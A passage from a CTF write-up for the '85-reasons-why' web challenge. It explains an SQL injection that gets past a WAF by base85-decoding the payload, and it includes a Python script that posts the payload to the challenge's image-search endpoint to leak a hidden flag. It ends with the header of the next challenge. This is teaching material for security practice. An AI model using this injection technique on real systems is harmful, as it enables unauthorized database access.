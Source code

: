 Here we should be able to do SQLI, but since it encodes our input using `base64.a85encode` we have to first decode our payload using `base64.a85decode` and we have to be careful with the padding of base85 because it can make our payload giberish and become invalid.

### Exploit

After trial and error I found the bypass for the WAF, which is as follows:

```python
a = base64.a85decode(b"""\\\\\\\\\\\\\\\\''/**/or/**/1--aa""")
print(a)
```

A little explanation of the payload above.
- `\\\\\\\\\\\\\\\''` in payload is used to bypass single quote
- `aa` is used for padding so that the payload generates a valid base85 and not giberish.

After that we can send the results from the script above to `/image-search` or use the script I made to send the payload.

```python 
import requests
import base64

# URL = "http://localhost:4444/"
URL = "https://85-reasons-why.lac.tf/"


def send_img(img, url=URL):
    res = requests.post(
        url+"image-search",
        files={"image-query": ('foo.jpeg', img, 'image/png')},
        # proxies={"https": "http://127.0.0.1:8080"},
        verify=False
    )
    return res.text

a = base64.a85decode(b"""\\\\\\\\\\\\\\\\''/**/or/**/1--aa""")
print(send_img(a))
b = base64.a85encode(a)
print(b)
```

We run after that we will get the flag in the hidden post.

![](https://i.imgur.com/sTYkxQd.png)

# california-state-police - web
## Description

Stop! You're under arrest for making suggestive 3 letter acronyms!

california-state-police.lac.tf
